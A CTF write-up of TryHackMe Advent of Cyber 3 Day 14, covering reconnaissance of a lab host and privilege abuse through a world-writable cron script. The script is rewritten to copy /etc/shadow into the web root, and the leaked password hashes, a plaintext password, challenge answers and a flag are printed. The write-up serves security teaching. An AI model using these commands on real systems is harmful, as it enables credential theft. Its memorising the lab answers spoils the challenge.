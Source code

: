 ```yaml
---
title: Advent Of Cyber 3 - Day 14
date: "2021-12-14"
description: Continuous Delivery, Continuous Integration (CI/CD)
tldr: Networking
tags: [CI,CD,tryhackme,adventofcyber3,networking]

---
```


Target: `10.10.173.70`

Open ports: `80,22`

```shell
┌──(kryssar㉿kali)-[/mnt/hgfs/VMSHARED/tryhackme]
└─$ sudo nmap -Pn 10.10.173.70

Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-17 13:30 CET
Verbosity Increased to 1.
Verbosity Increased to 2.
Verbosity Increased to 3.
Completed SYN Stealth Scan at 13:30, 2.17s elapsed (1000 total ports)
Nmap scan report for 10.10.173.70
Host is up (0.41s latency).
Scanned at 2021-12-17 13:30:11 CET for 2s
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

```

When browsing to the IP, a webpage is displayed but it doesn't offer much more than a static page. 
![thm-aoc3-day14](thm-aoc3-day14-1.png)

which means it's time to bring out `gobuster`

```shell
┌──(kryssar㉿kali)-[/mnt/hgfs/VMSHARED/tryhackme]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.173.70
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.173.70
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/12/17 13:43:43 Starting gobuster in directory enumeration mode
===============================================================
/warez                (Status: 200) [Size: 606]
/admin                (Status: 200) [Size: 363]
```

or dirbuster, just to try out something else: 
```shell
┌──(kryssar㉿kali)-[/mnt/hgfs/VMSHARED/tryhackme]
└─$ dirb http://10.10.173.70

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Fri Dec 17 14:11:35 2021
URL_BASE: http://10.10.173.70/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.173.70/ ----
+ http://10.10.173.70/admin (CODE:200|SIZE:363)                            
+ http://10.10.173.70/index.html (CODE:200|SIZE:169)
+ http://10.10.173.70/server-status (CODE:403|SIZE:277)
+ http://10.10.173.70/warez (CODE:200|SIZE:606)
```


interesting folders: `/warez, /admin`

where `/warez` seems to be a loot folder for the grinch, might be worth exploring later on.

the admin-page has a text-box that looks interestingly enough like output from the linux `ls` command.

![thm-aoc3-day14](thm-aoc3-day14-2.png)

and this part of the `view-source` confirms the suspicion: 
```html
<iframe src="ls.html"  height="200" width="700" title="The loot folder contains the following"></iframe> 
```

the page itself is just showing the output.  
```view-source:http://10.10.173.70/ls.html

defnottest.txt
nottest.txt
test.txt
test2.txt
```

McSkidy has some SSH credentials to the server, which can be used for further enumeration. 

```shell
ssh mcskidy@10.10.173.70
password: Password1
```

In the grinch´s homefolder there's a folder called `loot` and the contents look just like the output in `ls.html`

```shell
mcskidy@ip-10-10-173-70:/home/thegrinch$ ls -al loot/
total 8
drwxrwxrwx 2 root      root      4096 Nov 11 20:11 .
drwxr-xr-x 7 thegrinch thegrinch 4096 Nov 11 19:50 ..
-rw-r--r-- 1 root      root         0 Nov 11 06:37 defnottest.txt
-rw-r--r-- 1 root      root         0 Nov 11 06:27 nottest.txt
-rw-r--r-- 1 root      root         0 Nov 11 06:26 test.txt
-rw-r--r-- 1 root      root         0 Nov 11 07:04 test2.txt
```

unfortunately we can't do anything with these files because of the permissions on our current user.

"somebody" did mess up the permissions on the script responsible for the loot though. 

```shell
mcskidy@ip-10-10-173-70:/home/thegrinch/scripts$ ls -al
total 20
drwxr-xr-x 2 root      root      4096 Nov 11 20:03 .
drwxr-xr-x 7 thegrinch thegrinch 4096 Nov 11 19:50 ..
-rwx------ 1 root      root       286 Nov 11 20:03 check.sh
-rwx------ 1 root      root        58 Nov 11 09:00 cleanup.sh
-rwxrwxrwx 1 root      root        61 Nov 11 19:56 loot.sh
-rwx------ 1 root      root         0 Nov 11 07:58 test.sh
```

we have full access to the `loot.sh` and can change that to our advantage. Whatever file we want to read, we'll just have to change loot.sh and then wait for the homepage to update and we can read the contents via the browser.

change the script to print out something more fun, like `/etc/shadow`

```bash
#!/bin/bash
cat /etc/shadow > /var/www/html/ls.html
#ls /home/thegrinch/loot > /var/www/html/ls.html
```

after a short while, refresh `view-source:http://10.10.173.70/ls.html`

and now we have the users and hashed passwords.

```shell
thegrinch:$6$iiajscL7$7YgS0mCSs8ROHgS/4VP1itLix.T7onR26n4gdHFNAYnF/jVY7N4No11Yuy2RtLwXxJE3Vzl6zBdXXu5GUBJCj0:18942:0:99999:7:::
mcskidy:$6$g81UcX1e$az/mXtNiOt9tMDb6lixDN3c1yH2GhcJVlAIWYB/WYNgujmxHafZdhD91ppxB.x7RIkH9DbpS6XQxe0piA2p2L1:18942:0:99999:7:::
pepper:$6$GZUP42Y2$QYDESrTO9T517RDzR6cGXOANA/H4For7odahhn/DUdeWfEXtG9ZLHnZl4PLbfm8WF0GRB4ti9ij6w0NwBPunI/:18942:0:99999:7:::
```

lets read some other stuff we couldn't before, like the `check.sh` script.

change content to:  
```bash
cat /home/thegrinch/scripts/check.sh > /var/www/html/ls.html
```

the grinch seems to have a password reminder he built himself, sneaky little hobbit he is.

```bash
#Secret password reminder script V 1.0

response=$(curl -s http://localhost/ls.html)
content=$(echo $response > /tmp/check.txt)

if grep "remindme.txt" /tmp/check.txt
then
    echo  "ELFSareFAST"  > /var/www/html/pass.html
else
    echo "Error" > /dev/null
# rm /tmp/check.txt
fi
```

so if the `ls.html` contains `remindme.txt` the grinch will put his password in a file called `pass.html` which we can read via the browser as well.

The password should be `ELFSareFAST` though considering that's what the bash script says will be printed into `pass.html` but for fun we'll try it out.

change loot.sh to it's original state, and create the `remindme.txt` file. 

```shell 
mcskidy@ip-10-10-173-70:/home/thegrinch/loot$ touch remindme.txt

mcskidy@ip-10-10-173-70:/home/thegrinch/scripts$ cat loot.sh 
#!/bin/bash
ls /home/thegrinch/loot > /var/www/html/ls.html
```

visit the page, get the password:  
![thm-aoc3-day14](thm-aoc3-day14-3.png)


how many folders did dirb find with the default list: `4`

how many scripts do you see: `4`

what are the 5 characters: `ZUP42`

what is the content of flag.txt: `DI3H4rdIsTheBestX-masMovie!`

the `/warez` folder was just informational:

![thm-aoc3-day14](thm-aoc3-day14-4.png)

EOF